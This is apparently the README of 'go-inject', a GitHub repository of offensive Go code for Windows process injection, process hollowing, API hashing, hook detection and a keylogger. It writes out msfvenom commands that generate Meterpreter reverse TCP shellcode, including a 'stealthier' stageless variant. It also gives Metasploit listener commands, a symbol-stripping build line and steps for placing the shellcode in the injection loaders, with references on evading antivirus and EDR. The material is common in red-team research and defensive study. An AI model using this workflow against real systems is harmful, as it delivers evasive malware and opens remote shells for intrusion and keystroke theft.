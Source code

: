 # go-inject

Process injection techniques written in Go. I've also expanded this repo to include some general offense techniques in Go.

## Examples

Process Injection

* [Classic virtual alloc](examples/x64/valloc/valloc.go)
* [Heap](examples/x64/heap/heap.go)
* [Remote Thread Injection](examples/x64/remote-thread/remote_thread.go)
* [APC Queue Code Injection](examples/x64/queue-user-apc/queue.go)
* [UUID Injection - Used by Lazarus 2021](examples/x64/uuid/uuid.go)

Other offensive techniques:

* [Hook detection](examples/x64/detect-hooks/detect-hooks.go)
* [Keylogger](examples/x64/keylog/keylog.go)
* [Hollow](examples/x64/hollow/hollow.go)
* [API Hashing](examples/x64/api_hash/api_hash.go)

## Usage

Use msfvenom to generate shellcode:
```bash
# Option 1: Testing with calculator.
msfvenom -p windows/x64/exec CMD=calc.exe -f hex

# Option 2: Reverse tcp stager.
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444

# Option 3: Stageless payload - stealthier.
msfvenom -p windows/x64/meterpreter_reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444
```

Place payload string from above command within one of the example .go files replacing the content of the `payload` variable. If using uuid example, use [shellcode-to-uuids](helpers/shellcode-to-uuids.go) to convert to payload.

Start listener:

```bash
use payload/windows/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
to_handler
```

## Build Examples

Linux:
```bash
env GOOS=windows go build -ldflags="-s -w" -trimpath examples/x64/uuid/uuid.go
```

## References

* https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/
* https://github.com/Adepts-Of-0xCC/VBA-macro-experiments/blob/main/EDRHookDetector.vba
* https://github.com/brimstone/go-shellcode
* https://github.com/sysdream/hershell
* https://github.com/yoda66/MalwareDevTalk
* https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/
* https://medium.com/@justen.walker/breaking-all-the-rules-using-go-to-call-windows-api-2cbfd8c79724
* https://posts.specterops.io/adventures-in-dynamic-evasion-1fe0bac57aa
* https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
* https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection
* https://github.com/abdullah2993/go-runpe
